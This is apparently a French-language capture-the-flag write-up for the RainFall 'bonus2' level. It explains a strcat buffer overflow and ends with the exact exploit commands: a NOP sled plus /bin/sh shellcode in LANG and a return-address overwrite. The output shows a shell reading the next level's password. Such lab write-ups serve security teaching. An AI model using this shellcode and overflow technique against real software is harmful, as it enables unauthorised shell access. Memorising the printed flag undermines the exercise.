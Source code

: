 ﻿Apres etude du programme on voit dans la fonction greetuser qu'un strcat est effectue  
dans un buffer de 72 chars, et on y cat une chaine de 72 + une chaine de 15 ou 18 dependemment  
de la variable globale `language` qui est definie en fonction de la valeur dans la variable d'env `LANG`  

Ainsi en etudiant avec GDB, on trouve un offset de 23 chars pour ecraser l'addresse de retour de la fonction.
Ainsi on peut rediriger l'execution vers un shellcode place dans une variable d'environnement.  

Dans mon cas, j'ai mis le shellcode apres une NOP sled de 2000 chars dans la variable d'env `LANG` 
juste apres le code langue `nl` pour arriver dans le bon cas d'exploitation de `greetuser`  

```bash
bonus2@RainFall:~$ export LANG=$(python -c 'print "nl" + "\x90" * 2000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
bonus2@RainFall:~$ ./bonus2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA $(python -c 'print "B" * 23 + "\xd9\xf8\xff\xbf"')
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBB����
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```